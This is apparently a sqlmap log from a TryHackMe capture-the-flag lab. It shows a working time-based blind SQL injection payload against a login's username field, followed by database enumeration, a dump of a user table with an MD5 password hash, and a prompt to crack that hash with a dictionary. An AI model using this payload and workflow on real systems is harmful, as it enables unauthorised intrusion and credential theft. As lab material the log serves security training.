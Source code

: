 ```bash
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 4480 FROM (SELECT(SLEEP(5)))bvYk) AND 'hgEf'='hgEf&password=2&submit=submit
---
[20:28:07] [INFO] the back-end DBMS is MySQL
[20:28:07] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu 12.04 or 13.04 or 12.10 (Raring Ringtail or Quantal Quetzal or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[20:28:07] [INFO] fetching database names
[20:28:07] [INFO] fetching number of databases
[20:28:07] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
4
[20:28:18] [INFO] retrieved: 
[20:28:28] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[20:29:29] [INFO] retrieved: THM_f0und_m3
[20:30:28] [INFO] retrieved: mysql
[20:30:47] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[20:31:48] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[20:31:48] [INFO] fetching current database
[20:31:48] [INFO] retrieved: THM_f0und_m3
[20:32:47] [INFO] fetching tables for database: 'THM_f0und_m3'
[20:32:47] [INFO] fetching number of tables for database 'THM_f0und_m3'
[20:32:47] [INFO] retrieved: 2
[20:32:50] [INFO] retrieved: nothing_inside
[20:33:44] [INFO] retrieved: user
[20:33:58] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[20:33:58] [INFO] retrieved: 2
[20:34:00] [INFO] retrieved: username
[20:34:25] [INFO] retrieved: password
[20:34:55] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[20:34:55] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[20:34:55] [INFO] retrieved: 2
[20:34:58] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                      
05f3672ba34409136aa71b8d00070d1b
[20:36:48] [INFO] retrieved: DesKel
[20:37:11] [INFO] retrieved: He is a nice guy, say hello for me
[20:39:24] [INFO] retrieved: Skidy
[20:39:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[20:39:57] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
```